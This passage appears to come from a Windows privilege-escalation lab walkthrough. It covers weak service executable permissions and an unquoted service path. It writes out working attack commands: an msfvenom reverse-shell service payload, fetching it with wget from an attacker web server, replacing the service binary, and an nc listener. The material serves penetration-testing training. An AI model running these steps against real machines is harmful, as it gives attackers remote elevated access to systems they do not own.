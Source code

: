 The `Everyone` group has modify permissions (M) on the service's executable. We can overwrite it with any payload, and the service will execute it with the privileges of the configured user account.

2. Generate an exe-service payload using msfvenom and serve it through a python webserver:

```text
# msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP address attack machine> LPORT=4445 -f exe-service -o rev-svc.exe

# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

3. On the target machine, in powershell, pull it down:

```text
wget http://<IP address attack machine>:8000/rev-svc.exe -O rev-svc.exe
```

4. Replace the service executable with the payload:

```text
C:\> cd C:\PROGRA~2\SYSTEM~1\

C:\PROGRA~2\SYSTEM~1> move WService.exe WService.exe.bkp
        1 file(s) moved.

C:\PROGRA~2\SYSTEM~1> move C:\Users\unprivilegedusername\rev-svc.exe WService.exe
        1 file(s) moved.

C:\PROGRA~2\SYSTEM~1> icacls WService.exe /grant Everyone:F
        Successfully processed 1 files.
```

Start listener on attack machine:

```text
# nc -lvp 4445
```

Wait for the service to restart.

### Disk Sorter Enterprise

1. An unquoted service path was found.

```text
C:\> sc qc "disk sorter enterprise"
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: disk sorter enterprise
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 0   IGNORE
        BINARY_PATH_NAME   : C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Disk Sorter Enterprise
        DEPENDENCIES       :
        SERVICE_START_NAME : .\svcusr2
```
